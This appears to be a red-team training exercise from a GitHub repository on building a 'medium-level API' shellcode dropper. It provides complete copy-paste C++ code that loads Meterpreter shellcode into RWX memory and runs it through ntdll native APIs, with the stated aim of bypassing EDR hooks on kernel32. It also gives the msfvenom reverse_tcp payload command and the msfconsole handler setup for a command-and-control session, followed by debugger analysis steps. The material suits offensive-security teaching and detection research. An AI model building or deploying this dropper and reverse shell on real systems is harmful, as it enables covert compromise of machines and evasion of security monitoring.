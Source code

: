 ## Exercise 4: Medium_Level_API_Dropper
In this exercise, we will make the first modification to the reference dropper and replace the Windows APIs (kernel32.dll) with native APIs (ntdll.dll).
We create a **medium-level API shellcode dropper** in short **MLA-Dropper** based on native APIs. 
![medium_level_dropper_principal](https://user-images.githubusercontent.com/50073731/235372969-4d24ddec-7ee5-443e-966a-24b3d70dc3a8.png)



## Exercice 4 tasks:
### Create HLA-Dropper
1. Create a new C++ POC in Visual Studio 2019 and use the provided code for the MLA-Dropper.
2. Create staged x64 meterpreter shellcode with msfvenom and copy it to the C++ MLA-Dropper poc. 
3. Compile the MLA-Dropper as release or debug x64. 
4. Create and run a staged x64 meterpreter listener with msfconsole.
5. Run your compiled .exe and verify that a stable command and control channel opens. 
### Analyse HLA-Dropper
6. Use the Visual Studio tool dumpbin to analyze the compiled MLA-Dropper. Is the result what you expected?  
7. Use the API Monitor to analyze the compiled MLA-Dropper in the context of the four APIs used. Is the result what you expected? 
8. Use the x64dbg debugger to analyze the compiled MLA dropper: from which module and location are the syscalls from the four APIs used being executed?
Is the result what you expected? 


## Visual Studio
To create the medium-level API dropper project, follow the procedure of the high-level API dropper exercise, take a look to follow the necessary steps.
We replace all Windows APIs with the corresponding native APIs and create our MLA-Dropper.
- NtAllocateVirtualMemory
- NtWriteVirtualMemory
- NtCreateThreadEx
- NtWaitForSingleObject

The code works as follows. Unlike the Windows APIs, most of the native APIs are not officially or partially documented by Microsoft and are therefore not intended for Windows OS developers. To use the native APIs in our MLA-Dropper, we must manually define the function pointers for the native API functions in the MLA-Dropper code.
<details>
    
 ```
 // Define function pointers for native API functions
typedef NTSTATUS(WINAPI* PNTALLOCATEVIRTUALMEMORY)(HANDLE, PVOID*, ULONG_PTR, PSIZE_T, ULONG, ULONG);
typedef NTSTATUS(NTAPI* PNTWRITEVIRTUALMEMORY)(HANDLE, PVOID, PVOID, SIZE_T, PSIZE_T);
typedef NTSTATUS(NTAPI* PNTCREATETHREADEX)(PHANDLE, ACCESS_MASK, PVOID, HANDLE, PVOID, PVOID, ULONG, SIZE_T, SIZE_T, SIZE_T, PVOID);
typedef NTSTATUS(NTAPI* PNTWAITFORSINGLEOBJECT)(HANDLE, BOOLEAN, PLARGE_INTEGER);
typedef NTSTATUS(NTAPI* PNTCLOSE)(HANDLE);
typedef NTSTATUS(NTAPI* PNTFREEVIRTUALMEMORY)(HANDLE, PVOID*, PSIZE_T, ULONG);
 ```
</details>
    
    
Shellcode declaration same as before in the high-level API dropper.
<details>

```
// Insert the Meterpreter shellcode as an array of unsigned chars (replace the placeholder with actual shellcode)
    unsigned char code[] = "\xfc\x48\x83";
```
</details>


To directly access the code of the native APIs used, we need to manually load the required native APIs from ntdll.dll.
<details>
    
```
// Load native API functions from ntdll.dll
    PNTALLOCATEVIRTUALMEMORY NtAllocateVirtualMemory = (PNTALLOCATEVIRTUALMEMORY)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtAllocateVirtualMemory");
    PNTWRITEVIRTUALMEMORY NtWriteVirtualMemory = (PNTWRITEVIRTUALMEMORY)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtWriteVirtualMemory");
    PNTCREATETHREADEX NtCreateThreadEx = (PNTCREATETHREADEX)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtCreateThreadEx");
    PNTWAITFORSINGLEOBJECT NtWaitForSingleObject = (PNTWAITFORSINGLEOBJECT)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtWaitForSingleObject");
    PNTCLOSE NtClose = (PNTCLOSE)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtClose");
    PNTFREEVIRTUALMEMORY NtFreeVirtualMemory = (PNTFREEVIRTUALMEMORY)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtFreeVirtualMemory");
```    
</details>    

For memory allocation, we replace the Windows API VirtualAlloc with the native API **NtAllocateVirtualMemory**.
<details>
    
```    
// Allocate Virtual Memory with PAGE_EXECUTE_READWRITE permissions to store the shellcode
    // 'exec' will hold the base address of the allocated memory region
    void* exec = NULL;
    SIZE_T size = sizeof(code);
    NtAllocateVirtualMemory(GetCurrentProcess(), &exec, 0, &size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
```    
</details>    

For shellcode copying, we replace the Windows API WriteProcessMemory with the native API **NtWriteVirtualMemory**.
<details>
    
```
// Copy the shellcode into the allocated memory region
    SIZE_T bytesWritten;
    NtWriteVirtualMemory(GetCurrentProcess(), exec, code, sizeof(code), &bytesWritten);    
```
</details>    
    

For shellcode execution, we replace the Windows API CreateThread with the native API **NtCreateThreadEx**.
<details>
    
```
// Execute the shellcode in memory using a new thread
    // Pass the address of the shellcode as the thread function (StartRoutine) and its parameter (Argument)
    HANDLE hThread;
    NtCreateThreadEx(&hThread, GENERIC_EXECUTE, NULL, GetCurrentProcess(), exec, exec, FALSE, 0, 0, 0, NULL);
```
</details>

And finally we have to replace the Windows API WaitForSingleObject with the native API **NtWaitForSingleObject**.
<details>
    
```
// Wait for the end of the thread to ensure the shellcode execution is complete
    NtWaitForSingleObject(hThread, FALSE, NULL);
```
</details>    

Here is the complete code, and you can copy and paste this code into your MLA-Dropper project in Visual Studio.
<details>
    
```
#include <stdio.h>
#include <windows.h>
#include <winternl.h>

// Define function pointers for native API functions
typedef NTSTATUS(WINAPI* PNTALLOCATEVIRTUALMEMORY)(HANDLE, PVOID*, ULONG_PTR, PSIZE_T, ULONG, ULONG);
typedef NTSTATUS(NTAPI* PNTWRITEVIRTUALMEMORY)(HANDLE, PVOID, PVOID, SIZE_T, PSIZE_T);
typedef NTSTATUS(NTAPI* PNTCREATETHREADEX)(PHANDLE, ACCESS_MASK, PVOID, HANDLE, PVOID, PVOID, ULONG, SIZE_T, SIZE_T, SIZE_T, PVOID);
typedef NTSTATUS(NTAPI* PNTWAITFORSINGLEOBJECT)(HANDLE, BOOLEAN, PLARGE_INTEGER);
typedef NTSTATUS(NTAPI* PNTCLOSE)(HANDLE);
typedef NTSTATUS(NTAPI* PNTFREEVIRTUALMEMORY)(HANDLE, PVOID*, PSIZE_T, ULONG);


int main() {

    // Insert the Meterpreter shellcode as an array of unsigned chars (replace the placeholder with actual shellcode)
    unsigned char code[] = "\xfc\x48\x83...";

    // Load native API functions from ntdll.dll
    PNTALLOCATEVIRTUALMEMORY NtAllocateVirtualMemory = (PNTALLOCATEVIRTUALMEMORY)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtAllocateVirtualMemory");
    PNTWRITEVIRTUALMEMORY NtWriteVirtualMemory = (PNTWRITEVIRTUALMEMORY)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtWriteVirtualMemory");
    PNTCREATETHREADEX NtCreateThreadEx = (PNTCREATETHREADEX)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtCreateThreadEx");
    PNTWAITFORSINGLEOBJECT NtWaitForSingleObject = (PNTWAITFORSINGLEOBJECT)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtWaitForSingleObject");
    PNTCLOSE NtClose = (PNTCLOSE)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtClose");
    PNTFREEVIRTUALMEMORY NtFreeVirtualMemory = (PNTFREEVIRTUALMEMORY)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtFreeVirtualMemory");


    // Allocate Virtual Memory with PAGE_EXECUTE_READWRITE permissions to store the shellcode
    // 'exec' will hold the base address of the allocated memory region
    void* exec = NULL;
    SIZE_T size = sizeof(code);
    NtAllocateVirtualMemory(GetCurrentProcess(), &exec, 0, &size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    // Copy the shellcode into the allocated memory region
    SIZE_T bytesWritten;
    NtWriteVirtualMemory(GetCurrentProcess(), exec, code, sizeof(code), &bytesWritten);

    // Execute the shellcode in memory using a new thread
    // Pass the address of the shellcode as the thread function (StartRoutine) and its parameter (Argument)
    HANDLE hThread;
    NtCreateThreadEx(&hThread, GENERIC_EXECUTE, NULL, GetCurrentProcess(), exec, exec, FALSE, 0, 0, 0, NULL);

    // Wait for the end of the thread to ensure the shellcode execution is complete
    NtWaitForSingleObject(hThread, FALSE, NULL);

    // Return 0 as the main function exit code
    return 0;

}
```
</details>

    
## Meterpreter Shellcode
Again, we will create our meterpreter shellcode with msfvenom in Kali Linux. To do this, we will use the following command and create x64 staged meterpreter shellcode.
<details>
    
 **kali>**   
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=IPv4_Redirector_or_IPv4_Kali LPORT=80 -f c > /tmp/shellcode.txt
```
<p align="center">
<img width="696" alt="image" src="https://user-images.githubusercontent.com/50073731/235358025-7267f8c6-918e-44e9-b767-90dbd9afd8da.png">
</p>

The shellcode can then be copied into the MLA-Dropper poc by replacing the placeholder at the unsigned char, and the poc can be compiled as an x64 release.<p align="center">
<img width="479" alt="image" src="https://user-images.githubusercontent.com/50073731/235414557-d236582b-5bab-4754-bd12-5f7817660c3a.png">
</p>
</details>    


## MSF-Listener
Before we test the functionality of our HLA-Dropper, we need to create a listener within msfconsole.
<details>
    
**kali>**
```
msfconsole
```
**msf>**
```
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost IPv4_Redirector_or_IPv4_Kali
set lport 80 
set exitonsession false
run
```
<p align="center">
<img width="510" alt="image" src="https://user-images.githubusercontent.com/50073731/235358630-09f70617-5f6e-4f17-b366-131f8efe19d7.png">
</p>
</details>
 
    
Once the listener has been successfully started, you can run your compiled high_level_dropper.exe. If all goes well, you should see an incoming command and control session 
<details>
    
<p align="center">
<img width="674" alt="image" src="https://user-images.githubusercontent.com/50073731/235369228-84576762-b3b0-4cf7-a265-538995d42c40.png">
</p>
</details>


## MLA-Dropper analysis: dumpbin 
The Visual Studio tool dumpbin can be used to check which Windows APIs are imported via kernel32.dll. The following command can be used to check the imports. Which results do you expect?
<details>    
    
**cmd>**
```
cd C:\Program Files (x86)\Microsoft Visual Studio\2019\Community
dumpbin /imports high_level.exe
```
</details>    

<details>
    <summary>Solution</summary>    
As expected, when compared to the high-level dropper, you can see that the medium-level dropper **no longer imports** the Windows APIs VirtualAlloc, WriteProcessMemory, CreateThread, and WaitForSingleObject from kernel32.dll. This was expected and is correct.
<p align="center">
<img width="729" alt="image" src="https://user-images.githubusercontent.com/50073731/235374656-117e0468-cd4d-4832-afb7-599cf94d2f1b.png">
</p>
</details>    

## MLA-Dropper analysis: API-Monitor
Compared to the high-level dropper, you can see that the Windows APIs VirtualAlloc, WriteProcessMemory, CreateThread, and WaitForSingleObject no longer pass to the four corresponding native APIs. For a correct check, it is necessary to filter to the correct APIs. Only by providing the correct Windows APIs and the corresponding native APIs, we can be sure that there are no more transitions in context of the used APIs in our MLA-Dropper. We filter on the following API calls:
- VirtualAlloc
- NtAllocateVirtualMemory
- WriteProcessMemory
- NtWriteVirtualMemory
- CreateThread
- NtCreateThreadEx
- WaitForSingleObject
- NtWaitForSingleObject

<details>
    <summary>Solution</summary>    
If everything was done correctly, you could observe that there are more transitions from the Windows APIs to the native APIs we used in our MLA-Dropper poc.
This result was expected and is correct because our MLA-Dropper accesses or imports the needed native APIs NtAllocateVirtualMemory, NtWriteVirtualMemory, NtCreateThreadEx and NtWaitForSingleObject directly from ntdll.dll.
<p align="center">
<img width="522" alt="image" src="https://user-images.githubusercontent.com/50073731/235374864-c7e90dd6-82c6-49d1-a90c-b80a531416b3.png">
</p>
</details>    

## MLA-Dropper analysis: x64dbg 
Using x64dbg we want to validate from which module and location the respective system calls are executed in the context of the used Windows APIs -> native APIs?
Remember, so far we have not implemented system calls or system call stubs directly in the dropper. What results would you expect?
<details>
    <summary>Solution</summary>
    
1. Open or load your MLA-Dropper.exe into x64dbg
2. Go to the Symbols tab, in the **left pane** in the **Modules column** select or highlight **ntdll.dll**, in the **right pane** in the **Symbols column** filter for the first native API **NtAllocateVirtualMemory**, right click and **"Follow in Dissassembler"**. To validate the other three native APIs, NtWriteVirtualMemory, NtCreateThreadEx and NtWaitForSingleObject, just **repeat this procedure**. 
    
<p align="center">    
<img width="867" alt="image" src="https://user-images.githubusercontent.com/50073731/235445644-240e5c3b-a3cf-4a7a-99be-27412e2dcb82.png">
</p>
    
As expected, we can observe that the corresponding system calls for the native APIs NtAllocateVirtualMemory, NtWriteVirtualMemory, NtCreateThreadEx, NtWaitForSingleObject are correctly executed/imported from the .text section in the ntdll.dll module. This investigation is very important because later in the direct syscall exercise we expect a different result with the low level dropper and want to match it.
    
<p align="center">    
<img width="686" alt="image" src="https://user-images.githubusercontent.com/50073731/235445865-c3fe83fa-1539-4ff3-b850-96cc91a0a01d.png">
</p>    
</details>


## Summary: Medium-level API Dropper
- We made the transition from high-level APIs to mid-level APIs, or from Windows APIs to native APIs.
- But still no direct use of system calls
- Syscall execution via medium_level_dropper.exe -> ntdll.dll -> syscall
- Dropper no longer imports Windows APIs from kernel32.dll
- In case of EDR would only hook kernel32.dll -> EDR bypassed 
